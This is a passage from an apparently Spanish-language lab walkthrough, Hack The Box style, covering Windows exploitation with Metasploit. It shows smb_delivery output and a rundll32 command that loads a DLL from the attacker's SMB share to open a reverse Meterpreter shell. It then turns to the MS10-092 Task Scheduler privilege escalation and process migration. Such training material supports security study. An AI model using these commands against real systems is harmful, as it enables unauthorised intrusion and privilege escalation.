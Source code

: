 ```r
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

### Rundll Command on Target Host

Abra una consola cmd en el host objetivo y pegue el comando `rundll32.exe`.

```r
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

### Receiving Reverse Shell

Recibimos una llamada rápidamente.

```r
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

### Searching for Local Privilege Escalation Exploit

Desde aquí, busquemos el módulo [MS10_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930).

```r
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

### Migrating to a 64-bit Process

Antes de usar el módulo en cuestión, necesitamos ingresar a nuestra shell de Meterpreter y migrar a un proceso de 64 bits, o el exploit no funcionará. También podríamos haber elegido un payload Meterpreter x64 durante el paso de `smb_delivery`.

```r
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
```